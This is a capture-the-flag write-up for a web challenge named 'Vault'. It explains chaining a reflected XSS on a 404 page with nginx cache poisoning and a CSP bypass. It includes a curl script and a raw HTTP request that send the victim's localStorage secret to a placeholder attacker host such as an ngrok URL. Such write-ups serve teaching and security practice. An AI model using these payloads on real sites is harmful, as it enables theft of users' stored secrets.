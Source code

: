 # Vault

* Round: 33 (2023/04)
* Category: Web
* Points: 200
* Solves: 2

## Description

A simple but secure web app for storing secrets! If you find any vulnerability, please report it to admin!

## Solution

There is an obvious reflected XSS in 404 Not Found, but browser will always encode `<` and `>` in path so you can't get XSS triggered easily from browser. On the other hand, it is easily to make it send unencoded `<` and `>` using curl, combining it with nginx cache poisoning (cache key doesn't include query parameters) so you can get it to return HTML. You can use another 404 Not Found to construct valid JS to bypass CSP.

```bash
tok=$RANDOM
host="http://ictf2.maple3142.net:11223"
your_website="http://SOME_NGROK_URL"
curl "$host/$tok/*?*/;location='$your_website/?'+localStorage.secret//"
curl "$host/html$tok?<script/src=/$tok/*></script>"
echo ""
echo "Visit: $host/html$tok"
curl "$host/report" -G -d "url=$host/html$tok" -X POST
```

## Alternative Solution by @downgrade

```http
GET /<script/src="1;location=('http://YOUR_SERVER/'+localStorage.secret);//"></script>/../../../../../../lmao.html HTTP/1.1
Host: ictf2.maple3142.net
```

This use the fact that `$uri` is normalized path without query string, so it will be normalized to `/lmao.html`, therefore it will return the HTML as from cache too. CSP bypass is basically the same, expect you don't need to use another cache poisoning for that as it is possible to construct valid without encoded characters.
